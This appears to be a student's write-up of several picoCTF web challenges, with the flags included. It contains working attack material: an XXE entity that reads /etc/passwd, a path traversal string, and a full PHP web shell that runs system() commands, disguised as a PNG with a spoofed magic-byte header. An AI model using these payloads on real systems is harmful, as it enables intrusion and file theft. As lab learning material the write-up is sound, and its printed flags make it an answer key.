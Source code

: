 # SOAP
## Problem
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
## Thought Process
- Website has some interactive buttons, clicking them sends a request, so I opened the Network Tab to inspect it closely
```html
<form class="detailForm" action="/data" method="POST">
                        <input required="" type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
```
- The payload tab seems to imply the existence of some form of xml, which could be exploited by using an XXE (XML External Entity) Injection
- Since we need to use an XXE and modify the payload, I did some research about basic XXE Injections
- To obtain the flag at /etc/passwd, I found this XXE Injection:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- For some strange reason, any other xxe injection I try on burp suite works but the moment I try the one which should give me `/etc/passwd`, it doesn't work
- I attempted cURLing but it still gives no response, so I am going to have to leave this level on hold for the time being
- Tried again after 2 days, worked this time. Used BurpSuite to intercept and modify the request.
![image](https://github.com/user-attachments/assets/cdd8fa82-bd6f-421c-81e8-98bff1cb3e02)
# Forbidden Paths
## Problem
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Thought Process
- Provided with a website called Web eReader, which has a form accepting file names.
![image](https://github.com/user-attachments/assets/81357433-e42c-4148-9791-a7cca3b9160a)
- Tried `flag.txt`, wouldn't be that simple if it was a ctf problem.
- since it says that the absolute path is forbidden, we use the relative path. Therefore, it would be `../../../../../flag.txt`
- flag: `picoCTF{7h3_p47h_70_5ucc355_6db46514}`
# Cookies
## Problem
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/
## Thought Process
- Well this should be a walk in the park, the level being marked as easy, and having done a similar question in OasisCTF 2024.
![image](https://github.com/user-attachments/assets/7265b468-71fb-4d8c-b322-c589ebd2d21a)
- Go to the cookies tab, set the value to some 0 or positive value, and reload the page
![image](https://github.com/user-attachments/assets/44594854-3f0a-4ac7-a06f-0ecdf6e24b71)
- On trying a different value, it returns a different message, e.g. I love chocolate chip cookies. So, I think if we keep trying, we might be able to land on the flag.
- We can try a binary search within the first 100 values, but there is no idea of how many cookie values are acceptable.
- So I tried using BurpSuite's intruder feature, which I was trying out on the previous level while trying to comprehend how the software works.
- It basically simplifies the bruteforce as I just have to specify the payload type and range, followed by a grep specification for extraction the flag. It completely removes the need of a script from the process.
- After adding the specification to extract results containing the flag format, I ran the intruder.
![image](https://github.com/user-attachments/assets/85737b18-4dd6-4d89-baed-09779b83a42b)
![image](https://github.com/user-attachments/assets/91fa4e18-ca33-46b0-8207-8c5440dfe72e)
- Set cookie name as payload position hit start attack
- Well, by the look of it, I might have done it on the wrong request, as a result of which, it always returned name=snickerdoodle
- Retrying with the correct request this time,
![image](https://github.com/user-attachments/assets/411eb00d-e628-4e5e-bf89-f98365e81b7d)
- Well, the payload with a 1 under the `picoCTF{` list is the payload which returns the flag.
![image](https://github.com/user-attachments/assets/f11f207d-292d-4ee4-ae21-e5f9a9b68281)
- flag: `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`
# Trickster
## Problem
- A website is given which accepts a `.png` format file. Question Tag suggests the use of web shell, a common method of cyberattack.
## Thought Process
![image](https://github.com/user-attachments/assets/432a3182-a482-4670-a9a6-569d6075ed9d)
- Did the usual checks, saw the requests, cookies on the inspect element window. Found nothing there, so I proceeded with a check for `/robots.txt`.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
- Opening `/instructions.txt`
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- The conditions seem rather vague, since it could accept a `.png.php` file or the first few bytes of a text file could also be set to `PNG` to fool the website into thinking it is a valid upload.
- Using a basic webshell script obtained online, I added PNG before the script and uploaded it to the website as `Untitled.png.php`
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Now, I go to `/uploads/Untitled.png.php`
![image](https://github.com/user-attachments/assets/164629ea-9eea-41f1-971b-8569b0a.71df2)
- I have a web shell which I can use to remotely access the resources
- Checking the `/` directory
- ![image](https://github.com/user-attachments/assets/023aa0b5-3d14-4a6e-aa01-476a44a12d4c)
- checking the contents of various directories, I discovered the path `/var/www/html`
![image](https://github.com/user-attachments/assets/73d5d748-ff2a-47a4-9e24-358d7e2b9205)
- Reading the contents of the `HFQWKODGMIYTO.txt` file
![image](https://github.com/user-attachments/assets/d4beca37-38fc-41df-84e1-9f3584c4d429)
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}`
# Search Source
## Problem
- The developer of this website mistakenly left an important artifact in the website source. The important artifact could lead us to the flag somehow.
![image](https://github.com/user-attachments/assets/0c95e2a7-bb15-473e-93db-8dd8863c5e31)
- This is the website we are led to.
- Searching for pico in the source code, I found the flag in one of the `.css` files.
  ![image](https://github.com/user-attachments/assets/34faf139-19b7-44c1-9fd3-aee5255fbf54)
flag:`picoCTF{1nsp3ti0n_0f_w3bpag3s_587d12b8}`
# Power Cookie
## Problem
- We are given a website, it has a single button which allows us to continue as guest.
## Thought Process
- Opened the cookies tab, changed `isAdmin` cookie to 1. Reloaded the page and got the flag. Too simple.
![image](https://github.com/user-attachments/assets/7813d06e-98b2-426a-8ba9-2bd5d38b2be7)

flag: `picoCTF{gr4d3_A_c00k13_5d2505be}`
# It is my Birthday
## Problem
- I sent out 2 invitations to all of my friends for my birthday! I'll know if they get stolen because the two invites look similar, and they even have the same md5 hash, but they are slightly different! You wouldn't believe how long it took me to find a collision. Anyway, see if you're invited by submitting 2 PDFs to my website.
## Thought Process
- Searching up MD5 collisions, i found [this tutorial](https://www.mscs.dal.ca/~selinger/md5collision/)
![image](https://github.com/user-attachments/assets/c9e52007-027f-4757-8432-4ba906e9d2f1)
- Here there are some files which could be used.
- I will try adding `.pdf` extension and submitting to the website.
- It worked! The website has been fooled and revealed the flag inside a php script.
![image](https://github.com/user-attachments/assets/f9b51997-4640-4b5f-ac59-8187ccbdd505)
FLAG: `picoCTF{c0ngr4ts_u_r_1nv1t3d_40d81ca2}`
